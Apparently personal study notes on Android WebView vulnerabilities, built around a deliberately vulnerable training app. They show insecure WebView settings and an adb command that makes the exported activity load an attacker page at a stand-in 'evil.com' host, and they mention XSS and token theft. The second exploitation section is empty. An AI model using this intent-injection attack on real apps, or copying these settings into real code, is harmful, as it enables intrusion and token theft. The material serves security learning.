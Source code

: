 - The `webview` allows to load a remote url and display web pages as part of the activity layout. 
- It doesn't work like a full fledged browser but it shows the data on a web page inside an activity.
- Links opening on the apps itself without going to a browser are example for this.

==How to look for a vulnerable `webview`?==

 => First let's look which all components are exported or not, there are two ways to tell this:
 1. if the component explicitly declares `exported="true"` attribute
 2. The component automatically becomes exported if it has intent filters, unless declared otherwise ie, `exported="false"` 

  => Now confirm that the web view exist by look at source code for `loadwebview()` method.

  => lets spot the vulnerability by looking at an example:

  ```xml
 <activity android:name="com.tmh.vulnwebview.SupportWebView"   android:exported="true"/>
  ```

 -  this is an activity declared on [[./3.Android Application components Part 2|3.Android Application components Part 2]] which is exported.
 - Let's take a look at a vulnerable web view
 ```java       
 webView.setWebViewClient(new WebViewClient());  
 webView.getSettings().setAllowUniversalAccessFromFileURLs(true);    webView.getSettings().setJavaScriptEnabled(true);  
 if (getIntent().getExtras().getBoolean("is_reg", false)) {  
    webView.loadUrl("file:///android_asset/registration.html");  
     } else {  
          webView.loadUrl(getIntent().getStringExtra("reg_url"));  
         }  
     }  
 }
  ```

 - if we look at the code then we van see that it is loading a url right at the end and it is using a string send through the intent to load the url.

 - So this behaviour can be then exploited by third party application by sending the right intent to component with a url string, and the application will happily accept it as the component is exported which means that third party applications have access to it.

`exploitation:`

 =>For to exploit the vulnerability  we will send an intent to the vulnerable component using `adb` this will open a malicious web page provided by the attacker:

 =>we use this command for the same:
 ```shell
 adb shell am start -n com.tmh.vulnwebview/.RegistrationWebView --es  reg_url "https://www.evil.com"
 ```

 breaking down the command: 
 1. `adb shell`: to start a unique shell on our device 
 2. `am start`: 'am' stands for activity manager here we are instructing android to start the activity manager. this manages all the components of android application. 
 3. `-n` : this flag is used to represent the name of the component where we are sending our intent.
 4. `com.tmh.vulnwebview/.RegistrationWebView` : name of the component, the only change here is that we need to add '/' just before the activity name.
 5. `--es reg_url`: stands for extra string where we are going to end the string url.  the name of the String extra that we get from the activity is `reg_url`
 6. finally provide the malicious link that you want to send to the attacker.


###### javascript enabled for a WebView:

 - web views supports the use of javascript, the developer can enable it by just adding this configuration:
```java
 webView.getSettings().setJavaScriptEnabled(true);
```

- also adding this configuration helps in creating an interface b/w web page's javascript and client side java code:
```java
WebView webView = (WebView) findViewById(R.id.webview);
webView.addJavascriptInterface(new WebAppInterface(this),"Android");
```

- this means that the web page's javascript code can access and inject java code into the application
- as this activity is exported this behaviour can be dangerous and allow an attacker to carry out  attacks including XSS and stealing tokens from the application.

 `exploitation:`
  
